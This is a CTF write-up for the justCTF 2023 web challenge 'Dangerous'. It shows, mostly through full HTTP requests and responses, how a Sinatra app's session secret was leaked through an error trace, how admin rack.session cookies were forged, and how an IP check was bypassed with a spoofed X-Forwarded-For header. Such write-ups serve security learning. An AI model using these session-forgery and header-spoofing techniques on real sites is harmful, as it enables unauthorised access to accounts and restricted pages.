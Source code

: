 ```yaml
---
Category: Web
Difficulty: Easy
Platform:
  - justCTF 2023
Retired: true
Status: 3. Complete
Tags:
  - ruby
  - forging-cookies
  - rack.session
  - sinatra
---
```


>[!quote]
>My friend told me there's a secret page on this forum, but it's only for administrators.

# Setup

- Challenge: http://dangerous.web.jctf.pro
- Source code: https://s3.cdn.justctf.team/bd39a8d7-ad35-4fce-a0a9-51fa434ca14f/dangerous.zip

# Short summary

We have a pre-production environment that can be configured at will. The application uses `sinatra` to manage the `rack.session` cookie, which signs session cookie with a **random secret generated at every restart**. Because the application do not validate input and discloses ENV information as well as back-traces, it is possible to leak the secret value, patch the local environment and generate a valid signed cookie that can be reused in production.

# Exploitation

## Leaking the signing secret

Request to `/2` without any content
```http
POST /2 HTTP/1.1
Host: dangerous.web.jctf.pro
Content-Length: 8
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://dangerous.web.jctf.pro
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://dangerous.web.jctf.pro/2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: rack.session=VUQ%2FOH9Wiww2IDmwRsRhrwEJE%2B1V0SLfzliAjlcaxPw6bN6pMDCTEN1NMkFlBaqIhrNpmOZ5zHL6uJjvcwrNb1I%2FJ4lwtvVeiSRB0DOoSlmAScRr7MmItlckRXlSQJrpt2%2BNuaNRs2h%2BUpjLMfuOO%2Fmw%2Fs%2FZHe2p41hqGYeAOmjGQo4yv9K7tOMgQofTeJlEx%2Ba30ciAcHQF4EbcYSSeKJR4l1EhTB%2FryzTnTyhcLJxIbXLN04p8QPRIonsBxZpr0iZtSF1bzi7lJnnXFQW%2FtB2XzbceOWxNAQgrwOph1OoDawVgkFEBYiVZrum8WRa4m9oRtsg8XAA4pZnE1wgZVniRonwfs1paqGxL0TpbsfwHIMf1AOhI%2FhFW6uw9vuNZkcXnbXqniGb9zR9TiBiDRNvOfXefYZg%3D--jJH3pbRd5twoxdHV--YHlFrNHPVMrA8P4kkQkXww%3D%3D
Connection: close

content=
```

Server leaking the secret:
![](../../zzz_res/attachments/dangerous-secret.png)

## Forging an arbitrary rack.session cookie

Edited `config.json` in order to include the `janitor` user.

*config.json*
```json
{
	"mods": [
		{
			"username": "janitor",
			"password": "testpasswd123",
			"allowed_ip": "127.0.0.1"
		}
	],
	"flag": "testflag"
}
```

Hardcoded the production `session_secret` in order to forge arbitrary valid cookies

*dangerous.rb*
```rb
config = JSON.parse(File.read("./config.json"))
set :bind, '0.0.0.0'
enable :sessions

set :erb, :escape_html => true

con = SQLite3::Database.new "sqlite.db"

...

set :session_secret, 'a9316e61bc75029d52f915823d7bb628a4adae8b174bce89fd38ec4c7fb925a07e2ccbc01572b9fdce56502ef5d02609e5194a5ddd649ff349a206002e96a99d'

...
```

Logged in from localhost and forged a valid cookie:
```http
POST /login HTTP/1.1
Host: 127.0.0.1
Content-Length: 39
Content-Type: application/x-www-form-urlencoded
Cookie: rack.session=aw%2FgPEFvnPwF6ldIHlDzBMoX%2FFOmyeSk8%2BNNazXFQd6tp7YENRXqayWaPTlGOzF4GUFmaYBykdlfmhCEMKFD%2BqV%2BOQgjDDmomIZr9VZx7LAJdbdehW9Yx2tilkVvVTsfHeVtie7JFreuVBgj%2BeVopRorAodBgua2kvKKKmH6W3lS%2B4HHEpaFM1YySfdp4kzg%2BXDBf1eJ89E8UR40lQj5R07AQ3jiZJXzkOuv0Hu909UPTfhXOhzsbBKrj4HxDElRavjOWnPwsk5OUS78NJjpN0xFwvmFxkMBdYMz3JDOiKSIieNofFGo1skuumw2Apko0St5wNWwDPdvE9tnuOA86VbU4qLXUi%2FGHcNIMQbEjmZLcreBow6bBBXmE748ITrzMbD1h%2BAoVStOkNbKpIe2Owo5nkUzTSk%3D--P8VvR%2BNkc4om6KKR--xMJaRQ%2BibPrCE6yWQ%2FkPrg%3D%3D
Connection: close

username=janitor&password=testpasswd123
```

*Response*
```http
HTTP/1.1 302 Found
...
Set-Cookie: rack.session=YvDxLeuQsSjDGMq0SuYpbcsvZ%2B99T3uF9qSCYE5gVCRpm%2By63HyDKVzKG5csRUYs2ALwr3u2ckdvMCxwvHF%2BgUuM6MWhOKdcenL6UFWvdALOH7pr6PwDeJemlK2Em%2BMq4zqGeZn1s2Qbqa0rHQwWR3541Jfer03InPFXjLxQxcEgoxVLzmF9mAlFjcdXj%2Fn5svv189ILi8Wbns9RBOeOVjXDRiitBPH7aGV8eyPy3PRd9LK2GV%2BeOmaEQWkOHV3awXrne1X96GeL1yoYHWL46AzQbompFiKNcisuhkBRQhocjPWvioMenWOHwCzTi3POs%2Bt4KyjvSSGOCb4%2BUcAjP%2FHqXOlp9Ak9I1j%2FHih3FGAkDQiKncg%3D--zGDFj9ThLxNDUQ7e--%2BEumPrEKXNtC9P3KxVZz3Q%3D%3D; path=/; HttpOnly
```

## Bypassing IP filtering

The application blocks requests coming from IPs different to the one specified in the configuration file.

Request
```http
GET /flag HTTP/1.1
Host: dangerous.web.jctf.pro
Cookie: rack.session=4RgRk%2F24mKb7qhuf4rRXuOrP3Eag0gVn4YVZU7ODG%2BYILKF4hs%2ByIJRbgOVWZQm6VprojFNTVFq6%2F%2F6qRK%2F4vs3UgfMI9%2B1Yz9yVxslhhNl%2FzkkQcodO15dvWO5QNNNU%2B8K3gajMSEUlcIEmlAoVwnol%2Bf4Yf8b%2FY%2FmlJ9O2nWXekRI1ufB4vJp9exGS39cRjA%2BkxtNZY6k9SiiVY7zEcwR8E%2BqCR6QJv2kqE3AcsiuXtVcsczxr9t2LWSlPZpTwQ27smRopLqzJupcBcvh3uN2qzr1i2X54ic2GvCP335s5AzUCQIELi7KJuNaelPf8g9WrqyKFLVQRe5tA7fPuEkMU3kAK%2BYJJ3fz1kNN7nw3WjShROCBslB8nqWrto8E1IUNqm2CtD4umAaEC9qejDPAquiq5PExjnj4t1SxSgHL9EUmwCXV9KS%2BKOcS2bI8fNGoa2A%3D%3D--NHyLaPg3hiqFhSQk--1ORHWubELdOlpoWWazPyfA%3D%3D
Connection: close
```

Response
```http
HTTP/1.1 403 Forbidden
...
You are connecting from untrusted IP!
```

We can brute-force the admin IP comparing the user's color with every IP, eventually discovering 10.24.170.69:
```erb
# === temporarily disabled ===
  # con.execute("INSERT INTO threads (id, content, ip, username)
  #           VALUES (?, ?, ?, ?)", [nil, params[:content], request.ip, username])
  redirect to("/#{con.execute('SELECT last_insert_rowid()')[0][0]}")
...
<% @replies.each do |reply| %>
		<div style="padding-bottom: 1rem">
			<% user_color = Digest::SHA256.hexdigest(reply[2] + @id).slice(0, 6) %>
			<div style="color: #<%= user_color %>;">
				<%= user_color %>
			<% if reply[3] %>
				<span style="color: #ff0000;">##Admin:<%= reply[3] %>##</span>
			<% end %>
			</div>
			<div><%= reply[1] %></div>
		</div>
	<% end %>
```

![](../../zzz_res/attachments/dangerous-colors.png)

We can send the same request using the `X-Forwarded-For` header to spoof our IP and obtain the flag.

*request*
```http
GET /flag HTTP/1.1
Host: dangerous.web.jctf.pro
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: rack.session=4RgRk%2F24mKb7qhuf4rRXuOrP3Eag0gVn4YVZU7ODG%2BYILKF4hs%2ByIJRbgOVWZQm6VprojFNTVFq6%2F%2F6qRK%2F4vs3UgfMI9%2B1Yz9yVxslhhNl%2FzkkQcodO15dvWO5QNNNU%2B8K3gajMSEUlcIEmlAoVwnol%2Bf4Yf8b%2FY%2FmlJ9O2nWXekRI1ufB4vJp9exGS39cRjA%2BkxtNZY6k9SiiVY7zEcwR8E%2BqCR6QJv2kqE3AcsiuXtVcsczxr9t2LWSlPZpTwQ27smRopLqzJupcBcvh3uN2qzr1i2X54ic2GvCP335s5AzUCQIELi7KJuNaelPf8g9WrqyKFLVQRe5tA7fPuEkMU3kAK%2BYJJ3fz1kNN7nw3WjShROCBslB8nqWrto8E1IUNqm2CtD4umAaEC9qejDPAquiq5PExjnj4t1SxSgHL9EUmwCXV9KS%2BKOcS2bI8fNGoa2A%3D%3D--NHyLaPg3hiqFhSQk--1ORHWubELdOlpoWWazPyfA%3D%3D
X-Forwarded-For: 10.24.170.69
Connection: close
```

*response*
```http
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Sat, 03 Jun 2023 18:09:40 GMT
Content-Type: text/html;charset=utf-8
Connection: close
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Set-Cookie: rack.session=kHRUXQqIF%2FdOrnilQe%2BIDOKezsEQupqwS7sEbPWLfwIES6iyQqkFAcrP%2F73t8Ja0umhfMb1eC39IvCC4q800Z%2BIEDXTQDHbH4ugDWIj0dOwSTlCf%2B4qRv1cPqjbOSBqAQJqiIkBrMv8xvnU8D2ZpiDbyWzi1nQOK8a5c1SpLNiRFB%2FIUXuDP7%2FR8J4o9U%2FY9SCtvrR4uRYKXYJEnk2Aj4aqG7aySnl9TZdmu0tKrR9BVznGibNsu%2Fk2b0qNIUkL6kc0CFpZYlS0Om%2B3OjFDOyJVX%2BwBj8XcNb4ZXyoKt4qlrwpRJa45UF9bVXzlFcptk5Tn5lhDtKyctJBAZBr2sP9jQplacmmmc15makBwEGW1fAfKUsqBE8ZMffO09Ho%2FruzSITfGoCTh3hO5Sn%2BEXdJBG2sZRIekOQ9BwvL51pHeTdXgsN4f1zzUozPnryvxPzTKTxQ%3D%3D--SPD6v0EWem%2FlAXnH--lYXKiVv9sarF2LRBQ1EcBg%3D%3D; path=/; HttpOnly
Content-Length: 43

justCTF{1_th1nk_4l1ce_R4bb1t_m1ght_4_4_d0g}
```

# Flag

>[!success] Flag
> `justCTF{1_th1nk_4l1ce_R4bb1t_m1ght_4_4_d0g}`
